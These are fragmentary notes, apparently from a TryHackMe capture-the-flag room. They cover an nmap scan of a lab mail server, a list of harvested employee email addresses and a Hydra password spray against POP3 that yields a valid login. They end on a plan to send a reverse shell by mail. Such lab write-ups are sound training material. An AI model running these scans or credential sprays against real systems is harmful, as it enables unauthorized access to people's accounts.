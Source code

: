 <code>

https://tryhackme.com/room/yougotmail
  
alias https://brownbrick.co/
not fill to etc/hosts

```root@ip-10-10-123-138:~# nmap -sV brownbrick.co
Starting Nmap 7.80 ( https://nmap.org ) at 2025-10-06 14:05 BST
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for brownbrick.co (10.10.239.127)
Host is up (0.00056s latency).
Not shown: 992 closed ports
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
110/tcp  open  pop3          hMailServer pop3d
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp  open  imap          hMailServer imapd
445/tcp  open  microsoft-ds?
587/tcp  open  smtp          hMailServer smtpd
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 02:1A:41:63:2C:59 (Unknown)
Service Info: Host: BRICK-MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows
```


**Username Enumeration**
from web page
oaurelius@brownbrick.co
wrohit@brownbrick.co
lhedvig@brownbrick.co
tchikondi@brownbrick.co
pcathrine@brownbrick.co
fstamatis@brownbrick.co


oot@ip-10-10-196-188:~# hydra -L /root/Desktop/users -p bricks pop3://10.10.98.112
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-06 16:15:48
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:6/p:1), ~1 try per task
[DATA] attacking pop3://10.10.98.112:110/
[110][pop3] host: 10.10.98.112   login: lhedvig@brownbrick.co   password: bricks
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-06 16:15:49

try rdp access with user creds .. nothing
try smb enumeration with user creds .. nothing
try pop3 with user creds .. nothing

you must send mail with reverse shell

